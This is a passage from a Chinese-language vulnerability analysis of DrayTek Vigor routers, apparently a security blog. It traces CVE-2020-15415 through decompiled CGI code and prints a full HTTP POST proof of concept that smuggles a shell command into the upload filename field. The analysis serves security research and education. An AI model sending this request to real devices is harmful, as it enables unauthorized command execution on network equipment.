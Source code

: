 [![](https://p5.ssl.qhimg.com/t01f8d357926ff60537.png)](https://p5.ssl.qhimg.com/t01f8d357926ff60537.png)

除了有过滤函数还有一个判断，判断字符是否为十六进制字符，而且check函数也完善了。

[![](https://p5.ssl.qhimg.com/t01c3ff1cc0e1c3f139.png)](https://p5.ssl.qhimg.com/t01c3ff1cc0e1c3f139.png)

再看到rtick那边：

[![](https://p4.ssl.qhimg.com/t01167a03286bdfd878.png)](https://p4.ssl.qhimg.com/t01167a03286bdfd878.png)

将rtick的值限制在数字之内。



## 2.CVE-2020-15415

漏洞描述如下：

```
On DrayTek Vigor3900, Vigor2960, and Vigor300B devices before 1.5.1, cgi-bin/mainfunction.cgi/cvmcfgupload allows remote command execution via shell metacharacters in a filename when the text/x-python-script content type is used, a different issue than CVE-2020-14472.
```

在1.5.1版本下，当访问`cgi-bin/mainfunction.cgi/cvmcfgupload`这个路径时，如果`content type`为`text/x-python-script`，则在filename中存在命令注入。

知道了漏洞所在，直接定位过去。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t018a359094951d94e3.png)

看路径名猜测这个是一个用来上传文件的页面。

`getenv("QUERY_STRING")`，如果服务器与CGI程序信息的传递方式是GET，这个环境变量的值即使所传递的信息。这个信息经跟在CGI程序名的后面，两者中间用一个问号’?’分隔。

首先获取`QUERY_STRING`的值，然后判断是否存在`session=`字符串，如果不存在的话就进入到`sub_13450`函数中，跟进去看看：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01b2f6bd9b2316e3f3.png)

看到了一个system的执行点，但该怎么利用,漏洞通告中的filename并未在这里出现，出现filename的函数又和`/cvmcfgupload`路径不对应。

结合已有[POC](https://github.com/CLP-team/Vigor-Commond-Injection)继续分析。

```
POST /cgi-bin/mainfunction.cgi/cvmcfgupload?1=2 HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Content-Length: 174
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,en;q=0.9,zh-CN;q=0.8,la;q=0.7
Connection: close

------WebKitFormBoundary
Content-Disposition: form-data; name="abc"; filename="t';id;echo '1_"
Content-Type: text/x-python-script



------WebKitFormBoundary--

```
